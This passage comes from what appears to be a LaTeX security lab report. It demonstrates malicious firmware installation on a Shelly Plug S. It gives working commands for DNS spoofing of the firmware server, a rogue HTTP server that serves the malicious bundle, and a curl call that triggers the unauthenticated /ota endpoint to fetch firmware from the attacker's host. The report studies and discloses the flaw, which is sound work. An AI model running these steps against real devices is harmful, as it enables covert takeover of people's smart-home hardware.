    \medskip
    \noindent This is the pivotal step. When the device resolves the official update server's hostname, it receives the attacker's IP instead

    \begin{bashcode}
echo '192.168.1.20 firmware.shelly.cloud' > hosts.txt
sudo dnsspoof -i wlo1 -f hosts.txt        
    \end{bashcode}

    
    \item \textbf{HTTP Server}: A Python HTTP server was launched on port 80 to serve the malicious firmware bundle (\texttt{SHPLG-S.zip}) from a directory structure that \emph{mirrors the expected Shelly cloud endpoint} (\texttt{/gen1/SHPLG-S.zip}). This ensures the device can download the file from the exact URL path it expects

    \begin{bashcode}
sudo python3 -m http.server 80
    \end{bashcode}
\end{enumerate}

\noindent Lastly, we need to enable IP forwarding on the attacker's machine to ensure that the intercepted traffic is correctly routed between the gateway and the victim, preventing any network disruption
\begin{bashcode}
sudo sysctl -w net.ipv4.ip_forward=1
\end{bashcode}

\begin{figure}[H]
    \centering
    
\includegraphics[width=\linewidth]{Images/Fase2/MITM1.jpg}
    \caption{Variant A: ARP poisoning toward the device (top-left) and toward the gateway (bottom-left), DNS spoofing (top-right), and rogue HTTP server with the malicious firmware bundle (bottom-right)}
    \label{fig:mitm_setup}
\end{figure}

\subsubsection{Attack Execution and Results}
When the user clicks 'Update Firmware Version' in the web UI the following chain of events occurs:

\begin{enumerate}
    \item The Shelly Plug S sends a DNS query for \texttt{firmware.shelly.cloud}.
    \item The DNS query, routed through the attacker's machine (via ARP poisoning), is intercepted by \texttt{dnsspoof}, which responds with the attacker's IP address (192.168.1.20).
    \item The device sends an HTTP \texttt{GET} request to the resolved IP (the attacker's server), believing it is communicating with the official Shelly cloud.
    \item The HTTP server serves the malicious \texttt{SHPLG-S.zip} archive in response.
    \item The device applies the firmware update without any verification of its origin.
\end{enumerate}

\noindent Figure~\ref{fig:mitm_dns_intercept} captures the exact moment of a successful attack: the DNS spoofing pane (top-right) shows the intercepted DNS query (\texttt{192.168.1.19.4096 > 192.168.1.1.53: 41728+ A? firmware.shelly.cloud}), while the rogue HTTP server (bottom-right) logs the subsequent firmware download (\texttt{"GET /gen1/SHPLG-S.zip HTTP/1.1" 200}). The left panes show the continuous ARP poisoning maintaining the man-in-the-middle position.

\begin{figure}[H]
    \centering
    
\includegraphics[width=\linewidth]{Images/Fase2/MITM2.png}
    \caption{Variant A: the DNS query for \texttt{firmware.shelly.cloud} is intercepted, and the device downloads the malicious firmware from the server (bottom-right)}
    \label{fig:mitm_dns_intercept}
\end{figure}

\noindent What makes this variant so dangerous is that it's \textbf{completely invisible to the user}. To the device, it looks like a perfectly normal firmware update from the official server. No weird HTTP requests were injected and no strange endpoints was contacted.


\subsection{Variant B: Direct OTA Endpoint Exploitation}
The second variant takes a fundamentally different approach. Rather than intercepting the device's legitimate update flow, it directly \textbf{abuses the unauthenticated \texttt{/ota} HTTP endpoint} exposed by the original Shelly firmware. 

\medskip 
\noindent From the \textit{Official Shelly API Documentation} (Figure ~\ref{fig:OtaDocumentation}) we discover that this endpoint accepts a \texttt{url} query parameter that instructs the device to download and apply a firmware bundle from an \emph{arbitrary} URL, with \textbf{no authentication, no origin validation, and no cryptographic signature verification}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\linewidth]{Images/Fase2/OTAdocumentation.png}
    \caption{Snapshot of the Official Shelly Gen 1 API Documentation}
    \label{fig:OtaDocumentation}
\end{figure}

\subsubsection{Attack Execution}
This variant requires significantly less infrastructure: only an HTTP server hosting the malicious firmware; no ARP poisoning or DNS spoofing is required. The attacker simply needs network-level reachability to the device's HTTP interface.

\medskip
\noindent The attack is triggered with a single \texttt{curl} command:

\begin{bashcode}
curl http://192.168.1.19/ota?url=http://192.168.1.20/gen1/SHPLG-S.zip    
\end{bashcode}

\noindent This command instructs the Shelly Plug S (at 192.168.1.19) to download the firmware bundle from the attacker's HTTP server (at 192.168.1.20) and immediately apply it. The device responds with a JSON object confirming the update process has been initiated, as shown in Figure~\ref{fig:mitm_trigger}.

\begin{figure}[H]
    \centering
